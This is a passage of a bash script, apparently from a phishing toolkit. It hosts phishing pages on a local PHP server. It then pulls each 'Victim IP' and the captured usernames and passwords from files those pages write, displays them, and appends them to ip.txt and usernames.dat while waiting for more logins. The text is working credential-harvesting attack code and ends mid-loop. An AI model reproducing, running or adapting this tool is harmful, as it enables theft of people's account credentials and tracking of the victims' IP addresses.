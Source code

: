 printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Initializing...\e[0m\e[1;92m( \e[0m\e[1;96mhttp://127.0.0.1:5555 \e[0m\e[1;92m)\e[0m\n"
cd .htr/www && php -S 127.0.0.1:5555 > /dev/null 2>&1 & 
sleep 2
banner
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Successfully Hosted at :\e[0m\e[1;93m http://127.0.0.1:5555\e[0m\n"
datafound

}

grab_ip() {

ip=$(grep -a 'IP:' .htr/www/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'

printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Victim IP:\e[0m\e[1;96m %s\e[0m\n" $ip
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m ip.txt\e[0m\n"
printf "\n"
cat .htr/www/ip.txt >> ip.txt

}

grab_creds() {

account=$(grep -o 'Username:.*' .htr/www/usernames.txt | cut -d " " -f2)
IFS=$'\n'
password=$(grep -o 'Pass:.*' .htr/www/usernames.txt | cut -d ":" -f2)
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Account:\e[0m\e[1;96m %s\n\e[0m" $account
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Password:\e[0m\e[1;96m %s\n\e[0m" $password
cat .htr/www/usernames.txt >> usernames.dat
printf "\e[0m\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;96m Saved:\e[0m\e[1;93m usernames.dat\e[0m\n"
printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Next Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"

}

datafound() {

printf "\n"
printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Waiting for Login Info,\e[0m\e[1;96m Ctrl + C to exit.\e[0m\n"
printf "\n"
while [ true ]; do
